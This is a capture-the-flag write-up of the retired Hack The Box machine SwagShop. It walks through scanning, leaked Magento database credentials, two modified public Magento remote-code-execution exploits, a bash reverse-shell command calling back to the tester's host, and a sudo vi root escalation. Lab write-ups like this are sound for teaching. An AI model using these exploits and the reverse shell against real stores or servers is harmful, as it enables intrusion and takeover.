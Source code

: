 # SwagShop

This is the write-up for the box SwagShop that got retired at the 28th September 2019.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.140    swagshop.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/swagshop.nmap 10.10.10.140
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is the **Magento Demo Store** installed. This application is an Open-Source e-commerce platform written in PHP to set up stores.
The date of the copyright logo on the bottom tells, that this installation is from 2014.

![Magento Shop](swagshop_magento-1.png)

With the tool [Magescan](https://github.com/steverobbins/magescan) it is possible to scan Magento sites for versions and vulnerabilities.
```markdown
php magescan.phar scan:all 10.10.10.140
```

- Magento version is 1.9.0.0, 1.9.0.1
- Path _/app/etc/local.xml_ discloses a MySQL user and password:
  - root: fMVWh7bDHpgZkyfqQXreTjU9
  - dbname: swagshop

The Admin Login Panel can be found under _/index.php/admin_.

![Magento Admin Login](swagshop_magento-2.png)

Lets look for exploits:
```markdown
searchsploit magento
```

The interesting exploits are called:
- Magento eCommerce - Remote Code Execution
- Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution

The authenticated exploit could be useful after login in on the page but for now we use the upper one.
The RCE script has to be customized before it works:
```python
# (...)
target = "http://10.10.10.140/index.php/"
# (...)
query = q.replace("\n", "").format(username="tester", password="Pass1234")
# (...)
```
```markdown
python 37977.py
```

It runs successfully and we can login with _tester_ and _Pass1234_.

### Exploiting Magento after Login

After login in lets use the authenticated vulnerability found with searchsploit _"Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution"_.
This uses a **PHP Object Injection** vulnerability.

Lets modify the code before running it:
```python
# (...)

# Config.
username = 'tester'
password = 'Pass1234'
php_function = 'system'
install_date = 'Wed, 08 May 2019 07:23:09 +0000' # This needs to be the exact date from /app/etc/local.xml

# (...)

br.select_form(nr=0)
#br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
#br.form.fixup()
#br['login[username]'] = username
#br['login[password]'] = password

userone = br.find_control(name="login[username]", nr=0)
userone.value = username
pwnone = br.find_control(name="login[password]", nr=0)
pwnone.value = password

# (...)

request = br.open(url + 'block/tab_orders/period/1y/?isAjax=true', data='isAjax=false&form_key=' + key)

# (...)
```
```markdown
python auth-rce.py http://10.10.10.140/index.php/admin/ 'bash -c "bash -i >& /dev/tcp/10.10.14.5/443 0>&1"'
```

After modifying the code and executing it, the listener on my IP and port 443 starts a reverse shell.

## Privilege Escalation

We are logged in as _www-data_ and look if the user can execute something with sudo privileges:
```markdown
sudo -l

# Output
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

This means we can execute **Vi** with root privileges as long as we append the _/var/www/html/_ folder.
```markdown
sudo vi /var/www/html/privesc
```

It is possible to execute commands directly out of Vi by going into command mode (colon) and using an exclamation point to execute the command.
```markdown
:!/bin/bash
```

In this case, executing _/bin/bash_ starts a shell as root!
